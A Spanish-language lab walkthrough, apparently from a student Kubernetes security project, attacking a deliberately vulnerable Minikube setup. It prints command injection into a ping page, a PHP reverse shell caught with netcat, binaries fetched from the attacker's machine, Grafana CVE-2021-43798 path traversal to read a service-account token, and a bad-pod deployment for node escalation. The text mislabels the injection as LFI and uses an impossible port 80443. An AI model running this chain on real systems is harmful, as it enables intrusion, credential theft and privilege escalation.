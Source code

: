 Tras deplegar el laboratorio, ejecutamos este comando para que minikube nos lance un url donde hay una web básica para hacer ping a distintos dominios. 
```bash
minikube service --all
```

minikube lanza un IP con un puerto donde hay una web para lanzar ping a dominios o IPs. Dicha página es vulnerable a LFI:

![../../images/googlecom_ls.png](file://../../images/googlecom_ls.png)

Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos:
1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64.
```bash
base64 php-revshell.php
```
1. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash
google.com;echo "<php-revshell in base64>" | base64 -d > shell.php
```
1. Verificamos que se ha subido el archivo shell.php:
```bash
google.com;ls -l
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png)
1. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443:
``` bash
nc -lvp 80443
```
1. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos entrar en el pod donde se está ejecutando el servicio web.
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png)

Una vez dentro hacemos un reconocimiento en el pod:
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí):
```bash
python3 -m http.server
```
Descargamos el binario y damos permisos de ejecución:
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
```

Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i create pods.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i%20create%20pods.png)
2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo.
```shell
env
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.
```shell
apk add curl
curl http://10.103.238.75:3000/login | grep version
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png)
Vemos que la versión de Grafana es la "8.3.0-beta2". Buscando en internet vemos que es vulnerable a LFI, es decir podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).
Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token.
``` bash
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png)Comprobamos si el posible crear pods con el token de Grafana:
``` bash
./kubectl auth can-i create pods --token=$token
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png)
Como es posible crear pods, podemos crear un [badpods](https://github.com/BishopFox/badPods) para escalar privilegios al nodo de Minikube.  Este es el YAML que utilizaremos.

Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:
```bash
wget 192.168.1.131:8000/bad-pod.yaml
./kubectl apply -f bad-pod.yaml --token=$token
```
